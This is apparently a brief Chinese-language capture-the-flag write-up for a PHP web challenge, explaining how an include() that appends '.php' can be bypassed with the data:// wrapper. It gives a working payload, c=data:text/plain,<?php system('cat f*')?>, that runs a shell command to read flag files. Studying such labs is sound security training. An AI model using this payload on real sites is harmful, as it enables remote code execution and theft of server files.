 <img src="/images/ctf-web06/image-20220924164006560.png" alt="image-20220924164006560" style="zoom:67%;" />

在37题的基础上, `include`中, 变量c后面加了`.php`后缀

那么这里可以在`data://`伪协议中要执行的`php`代码后面加上`?>`闭合它, 由此,payload为:

```
c=data:text/plain,<?php system('cat f*')?>
```

这里就相当于执行了`<?php system('cat f*')?>.php` 因为语句已经提前闭合了, 所以后面的`.php`后缀并没有什么用

<br>

***

<br>

# Web40

![image-20220924170359956](/images/ctf-web06/image-20220924170359956.png)
